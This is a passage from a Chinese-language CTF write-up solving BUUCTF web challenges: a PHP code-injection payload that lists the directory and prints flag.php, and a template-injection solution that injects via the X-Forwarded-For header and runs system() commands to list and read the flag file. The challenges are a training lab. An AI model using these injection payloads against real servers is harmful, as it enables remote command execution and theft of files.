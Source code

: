 然后继续构造：`exp=print_r(next(array_reverse(scandir(current(localeconv())))));`

发现已经是flag.php了然后可以用以下任意函数来包含：

```
how_source(end(scandir(getcwd())));
readfile
highlight_file
file_get_contents 
```

最终payload：`exp=highlight_file(next(array_reverse(scandir(current(localeconv())))));`

# 0x21.[BJDCTF2020]The mystery of ip

>   考点是SSTI模板注入，但是这个比较简单，这里贴个图：
>
>   ![image-20210912114416606](BUU-WEB-0x20-0x2F/image-20210912114416606.png)

这题环境开的时候以为环境出问题了，加了index.php后发现没问题

看了看没啥头绪，然后wp：

和ip有关，尝试xff或者client-ip，123或者{7*8}，都可以控制

然后``{system("cd ../../../;ls")}`发现flag

{system("cd ../../../;cat flag")}
